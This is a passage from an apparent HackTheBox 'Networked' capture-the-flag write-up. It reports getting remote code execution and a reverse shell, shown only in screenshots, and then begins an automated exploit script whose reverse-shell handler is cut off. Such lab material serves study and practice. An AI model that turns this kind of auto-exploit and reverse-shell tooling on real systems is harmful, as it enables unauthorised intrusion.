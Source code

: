 And get RCE in it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2022-01-04-HackTheBox-Networked/2022-01-04-HackTheBox-Networked%2006:15:47.png)

And a reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2022-01-04-HackTheBox-Networked/2022-01-04-HackTheBox-Networked%2006:18:25.png)

Now let's easily automate it.

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2022-01-04-HackTheBox-Networked/2022-01-04-HackTheBox-Networked%2006:30:44.png)

auto_pwn_networked.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Python Auto Pwn Networked HackTheBox

import argparse
import requests
import sys
import os
from pwn import *
import base64
import urllib.parse
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Handler root which will be opened in thread
def Handler(lport):
```